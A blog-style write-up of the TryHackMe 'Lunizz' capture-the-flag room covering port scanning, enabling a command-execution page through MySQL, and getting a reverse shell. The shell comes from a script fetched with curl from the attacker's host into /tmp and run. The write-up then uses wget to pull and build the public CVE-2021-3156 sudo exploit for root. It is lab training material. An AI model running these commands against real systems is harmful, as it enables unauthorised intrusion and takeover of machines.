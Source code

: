 ```yaml
---
layout: post
title:  "TryHackMe - Lunizz CTF"
date:   2021-02-26 12:06:00 +0100
categories: [ctf, writeups, tryhackme]
---
```


Link to the ctf: [Lunizz CTF](https://tryhackme.com/room/lunizzctfnd)

```
# Nmap 7.80 scan initiated Wed Feb 24 23:41:07 2021 as: nmap -sV -sC -p- -T4 -oN nmap.log 10.10.115.79
Nmap scan report for 10.10.115.79
Host is up (0.087s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:08:db:be:ed:80:d1:ef:a4:b0:a9:e8:2d:e2:dc:ee (RSA)
|   256 79:01:d6:df:8b:0a:6e:ad:b7:d8:59:9a:94:0a:09:7a (ECDSA)
|_  256 b1:a9:ef:bb:7e:5b:01:cd:4c:8e:6b:bf:56:5d:a7:f4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL 5.7.32-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.32-0ubuntu0.18.04.1
|   Thread ID: 3
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, ConnectWithDatabase, FoundRows, IgnoreSigpipes, SupportsTransactions, LongPassword, ODBCClient, SwitchToSSLAfterHandshake, InteractiveClient, LongColumnFlag, SupportsCompression, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, SupportsLoadDataLocal, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: `|lXPJ\x1CK5G";6\x10y
| Nq@Z
|_  Auth Plugin Name: mysql_native_password
4444/tcp open  krb524?
| fingerprint-strings: 
|   GetRequest: 
|     Can you decode this for me?
|     bGV0bWVpbg==
|     Wrong Password
|   NULL, SSLSessionReq: 
|     Can you decode this for me?
|_    bGV0bWVpbg==
5000/tcp open  upnp?
| fingerprint-strings: 
|   NULL: 
|     OpenSSH 5.1
|_    Unable to load config info from /usr/local/ssl/openssl.cnf
```

| Port | Service | 
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |
| 3306 | MySQL   |


# Initial foothold
By using `dirsearch` with the wordlist `SecLists/Discovery/Web-Content/raft-large-files.txt` the webserver, we found a file called `instructions.txt`
![](/assets/Clipboard_2021-02-25-01-55-03.png)

```
Made By CTF_SCRIPTS_CAVE (not real)

Thanks for installing our ctf script

#Steps
- Create a mysql user ([REDACTED]:[REDACTED])
- Change necessary lines of config.php file

Done you can start using ctf script

#Notes
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE
```

In the webpage, we also found `/whatever/index.php` (again by using `dirsearch` and the wordlist `SecLists/Discovery/Web-Content/raft-large-directories.txt`) with a input field that could pontentially execute code, but it doesn't work right now.

![](/assets/Clipboard_2021-02-25-02-17-46.png)

Also the `Command Executer Mode :0` it kinda tells me that this function is disabled.

# MySQL
We can connect to `MySQL` by issuing the following command:

```bash
mysql -u USERNAME -pPASSOWRD -h VICTIM_IP
```

In the MySQL service, we have a database called `runornot`, containing a table called `run` with only one value: `0`

I tried to change the value of the row.
```sql
UPDATE runcheck SET run=1;
``` 

# Remote Code Execution
I went again to the `/whatever/index.php` and I saw that `Command Executer Mode` is set to `1`.
So tried again to use the input
![](/assets/Clipboard_2021-02-25-02-25-42.png)

And we got RCE.

I then used [asio](https://github.com/jackrendor/asio) to get a reverse shell.

```bash
asio -H MY_IP -P 8080 -A -B
```
![](/assets/Clipboard_2021-03-01-11-00-30.png)
I then created a file called `shell.sh` and put the one-liner from `asio` in it.

I opened a listener for the reverse shell.
```bash
rlwrap nc -vlp 8080
```

and then used `python3 -m http.server` to create a webserver.
> NOTE: the command MUST run inside the same folder as `shell.sh`

download the script on the target machine:
```bash
$(curl YOUR_IP:8000/shell.sh -o /tmp/)
```

and then execute it
```bash
bash /tmp/shell.sh
```

![](/assets/Clipboard_2021-03-01-11-38-53.png)


# Privesc
Sudo is vulnerable to the CVE-2021-3156, this is the unintentional way that I found to get root.

[CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

I first cloned the repo on my machine where the python webserver is still running

Moving to the reverse shell: I created a folder inside `/tmp` called `privesc`, download the necessary files from the python webserver, issue `make` and then execute `sudo-hax-me-a-sandwich`
```bash
mkdir /tmp/privesc
cd /tmp/privesc
wget YOUR_IP:8000/CVE-2021-3156/Makefile
wget YOUR_IP:8000/CVE-2021-3156/hax.c
wget YOUR_IP:8000/CVE-2021-3156/lib.c
make
./sudo-hax-me-a-sandwich
```

![](/assets/Clipboard_2021-03-01-11-49-37.png)

we can check which argument we can supply to it by issuing the following command:
```bash
cat /etc/*release
```
![](/assets/Clipboard_2021-03-01-11-59-03.png)

In this way, we see that the version of Ubuntu is `18.04.5 LTS (Bionic Beaver)` so accordingly to `sudo-hax-me-a-sandwich`, we have to supply the argument `0`

![](/assets/Clipboard_2021-03-01-12-01-15.png)

and we got root.
